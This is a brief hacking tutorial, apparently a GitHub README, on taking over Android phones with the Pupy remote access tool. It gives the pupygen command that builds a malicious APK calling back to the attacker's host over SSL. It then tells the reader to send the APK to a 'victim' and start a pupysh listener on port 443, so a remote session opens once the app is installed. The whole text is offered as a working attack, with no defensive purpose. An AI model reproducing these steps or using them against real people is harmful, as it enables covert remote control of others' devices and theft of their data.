 # HACK ANDROID BY RAT PUPY
HACK ANDROID BY NEW RAT (PUPY SHELL)

First step you need installed pupy shell in this link:
```
https://github.com/Faral-Ghaemi/pupy
```

For hack by pupy you must find your wan ip address. for do this go to google and search "my ip".

you need a open port & you can see this tutorial https://github.com/Faral-Ghaemi/Hack-without-port-forwarding for do that.

so open the terminal in the pupy/pupy and type this command:
```
./pupygen -f apk -o test.apk connect --host 192.2.2.2 --transport ssl
```
and now you can see test.apk in pupy/pupy 

now send rat(test.apk) to victim and wait for him.

so now we created rat and we have to listening this port:
open terminal in pupy/pupy and type: 
```
./pupysh.py -p 443
```
if your victim install the RAT open the session.

## GOOD LUCK (mohammad amin ghaemi)
